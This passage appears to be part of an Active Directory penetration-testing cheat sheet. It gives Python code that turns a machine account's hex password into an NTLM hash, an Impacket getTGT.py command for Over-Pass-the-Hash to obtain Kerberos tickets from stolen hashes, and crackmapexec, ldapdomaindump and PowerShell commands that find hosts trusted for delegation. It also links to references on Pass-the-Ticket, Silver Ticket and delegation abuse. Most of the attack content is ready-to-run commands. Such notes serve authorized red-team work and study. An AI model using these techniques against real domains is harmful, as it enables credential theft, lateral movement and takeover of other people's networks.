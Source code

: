 Converting machine account Hex value to NTLM hash:
```
import hashlib,binascii hexpass = "e6 5f 92..."
hexpass = hexpass.replace(" ","")
passwd = hexpass.decode("hex")
hash = hashlib.new('md4', passwd).digest()
print binascii.hexlify(hash)
```

### Over-Pass-The-hash
- https://medium.com/r3d-buck3t/play-with-hashes-over-pass-the-hash-attack-2030b900562d
- blog.gentilkiwi.com/securite/mimikatz/overpass-the-hash

Use the user or computer NTLM hash to request Kerberos tickets.
--> Alternative to Pass The hash over NTLM protocol  
--> Useful in networks where NTLM protocol is disabled and only Kerberos is allowed.  

```
getTGT.py domain.local/workstation1$ -hashes XXXXXXXXXXXXXXXXXXXXXXXXXXX:XXXXXXXXXXXXXXXXXXXXXXXXXXX -dc-ip 192.168.0.10 -debug
KRB5CCNAME=/home/test/lutzenfried/tooling/workstation1\$.ccache

```
Potential error when using Over Pass The Hash attack due to the Kerberos and time.
```
Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```
--> Error raised because of your local time, you need to synchronise the host with the DC: ```ntpdate <IP of DC>```

### Pass The ticket
- https://book.hacktricks.xyz/windows/active-directory-methodology/pass-the-ticket



### Silver ticket
- https://adsecurity.org/?p=2011
- https://pentestlab.blog/2022/01/17/domain-persistence-machine-account/

### Kerberos Delegation
- https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/
- https://posts.specterops.io/a-case-study-in-wagging-the-dog-computer-takeover-2bcb7f94c783
- https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html

Check for system trusted for delegation
```
crackmapexec ldap 192.168.0.10 -u jdoe -p Password123 --trusted-for-delegation
OR
ldapdomaindump -u "company.local\\jdoe" -p "Password123" 192.168.0.10  
grep TRUSTED_FOR_DELEGATION domain_computers.grep
OR
PS> Get-ADComputer -Filter {TrustedForDelegation -eq $True}
```
